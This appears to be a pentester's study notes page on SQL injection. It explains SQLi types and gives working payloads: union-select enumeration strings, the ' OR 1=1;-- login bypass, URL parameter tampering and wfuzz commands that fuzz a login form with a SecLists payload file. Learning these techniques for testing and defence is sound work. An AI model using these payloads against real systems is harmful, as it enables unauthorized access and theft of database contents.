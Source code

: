 ```yaml
---
description: >-
  SQLi, by definition, is an attack on an input field specifically a
  webpage/webapp connected to a backend database consisting of injecting a SQL
  query in the data field to input data back to the user.
---
```


# 💉 Structured Query Language Injection (SQLi)

## Introduction

Structured Query Language Injection (SQLi) is an attack that specifically targets a web application database server that allows malicious queries to be executed.

This vulnerability occurs when a web application communicates with a back end DB using user input that has not been properly validated.

**General Rule of Thumb**:

<mark style="color:yellow;">Simply put, if you see a login page, ATTEMPT SQLi</mark>.

## How a DB Works

* The SQL statement used to <mark style="color:green;">retrieve data</mark> is "<mark style="color:yellow;">SELECT</mark>"
* The SQL clause that can be used to <mark style="color:green;">retrieve data from multiple tables</mark> is "<mark style="color:yellow;">UNION</mark>"
* The SQL statement that is used to add data is "INSERT"

**Conclusion**:

Retrieving data from a <mark style="color:yellow;">single table in a database</mark> -- SELECT&#x20;

Retrieving data from <mark style="color:yellow;">multiple tables in a database</mark> -- UNION

## Links

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}
PayloadsAllTheThings GitHub Repo
{% endembed %}

{% embed url="https://www.securityidiots.com/Web-Pentest/SQL-Injection/" %}
SQLi Logic
{% endembed %}

## Manual MSSQL Injection

Do you see a seemingly vulnerable input field that you believe queries the database?

<mark style="color:yellow;">Make a request to it and capture it in burp // send to repeater tab</mark>

```
q=500' union select 1 -- 
q=500' union select 1,2 -- 
q=500' union select 1,2,3 -- 
q=500' union select 1,2,3,4 -- 
q=500' union select 1,2,3,4,5 -- 
q=500' union select 1,2,3,4,5,6,7 -- 
q=500' union select 1,2,3,4,5,6,7,8 -- 
```

* Be sure to check the response tab after you send every request as you do not know when it will return data!

### URL-based SQLi

* ID-based, this means that an object could possibly be referencing a back-end database
* Of course this is similar to Indirect Object Reference, or IDOR

Example:

`https://website/blog?id=1`

* We can attempt to mess with the ID parameter because it is calling the database

Instead, we can try:

`https://website.thm/blog?id=`<mark style="color:yellow;">`2;--`</mark>

* This will then make a call to a different table from the database as long as it is set to public

### In-Band SQLi

* In-Band SQLi is the easiest type of SQLi to detect and exploit
* In-Band means that the same method of communication that is used to exploit the database also has the ability to allow the attacker to receive the results
* <mark style="color:yellow;">Example: Exploit</mark> SQLi on page & <mark style="color:yellow;">Receive</mark> on the same page

### Error-Based SQLi

* This type of SQLi is the most useful for easily obtaining information about the database structure and what type of database is operating on the back-end
* Database errors are printed to the screen
* Can be used to enumerate a whole database

### Union-Based SQLi

* This type of SQLi utilizes the SQL UNION operator alongside a SELECT statement to return additional results
* This method is most common for extracting large amounts of information because it pulls from multiple tables

### Blind SQLi - Authentication Bypass

* Unlike In-Band SQLi, where we can see the results of our attack, Blind SQLi is when we get little to no feedback to confirm whether our injected queries were successful
* Authentication Bypass -- We do not want to dump the database, but rather get around the login

Bypass Example:

Username: <mark style="color:yellow;">' OR 1=1;--</mark>

Password: <mark style="color:yellow;">' OR 1=1;--</mark>

## Semi-Automatic SQLi

{% embed url="https://www.youtube.com/watch?v=c2OFrDVb3EM&t=2558s" %}
Go to 45 mins
{% endembed %}

1. Set URL variable ($URL) to your target you are attacking

```
export URL=http://192.168.1.181/index.php
echo $URL
```

&#x20; 2\. Find the backend processing for the handling of your input in the web application

* View source code
* Search for form elements they look like this: <mark style="color:yellow;">\<form</mark>
* Locate the script or action that it takes within that line of code it should be executing a php file
  * i.e. if it is <mark style="color:yellow;">checklogin.php</mark>
  * Make it your URL variable

```
export URL="http://192.168.1.181:80/checklogin.php"
```

&#x20;  3\. Locate quick-SQLi.txt, it should be something like: usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt

&#x20;  4\. Load up wfuzz:

* Check <mark style="color:yellow;">\<input name</mark>, in this case, it is <mark style="color:yellow;">myusername</mark>

```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt -d "myusername=admin&mypassword=FUZZ&Submit=Login" --hc 404 "$URL"
```

* You may get get a lot back
* Look at the chars
* Go back to the web app and manually authenticate using that payload and username
* Go through them until you get an error
* Determine what a valid and invalid error is depending on char size
* Be sure to block out the invalid errors in wfuzz as seen below
* For example, these chars are 109 and 444

```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt -d "myusername=admin&mypassword=FUZZ&Submit=Login" --hc 404 --hh 109,444 "$URL"
```

* Anything you get now should be attempted manually once more in the browser

## Authentication Bypass (one entry field)

Example:&#x20;

Please enter your ID:

```
123

1'

1'or 1=1-- -

' OR 1=1;--

' OR 1=1;--
```

* Be sure to Google your errors to attempt to identify the backend database
